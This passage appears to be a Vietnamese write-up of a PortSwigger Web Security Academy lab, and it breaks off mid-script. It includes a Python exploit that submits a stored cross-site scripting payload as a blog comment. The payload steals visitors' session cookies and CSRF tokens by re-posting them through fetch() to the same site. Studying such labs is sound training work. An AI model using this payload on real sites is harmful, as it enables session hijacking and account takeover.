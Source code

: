 ![image](https://hackmd.io/_uploads/rkPgVwu5a.png)

nhưng lab có chú ý

![image](https://hackmd.io/_uploads/S1S6suO9T.png)

- Để ngăn nền tảng Học viện bị sử dụng để tấn công các bên thứ ba, tường lửa của chúng tôi chặn các tương tác giữa các phòng thí nghiệm và các hệ thống bên ngoài tùy ý. Để giải quyết bài lab, bạn phải sử dụng máy chủ công cộng mặc định của Burp Collaborator
- vậy nên session bên trên trả về cho chúng ta là không chính xác

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a1a006a048ab74b839e9cce000f00d4.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']

payload = """<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'cuong');
data.append('email', 'a@a.a')
data.append('website', 'http://a.com')

fetch('/post/comment',{
  method: 'POST',
  mode: 'no-cors',
  body : data,
});
});
</script>""";

data = {
    'comment': payload,
    'postId': '8',
    'name': 'cuong',
    'email': 'a@a.a',
    'website' : 'http://a.com',
    'csrf' : csrf,
}

response = session.post(
    url + "/post/comment",
```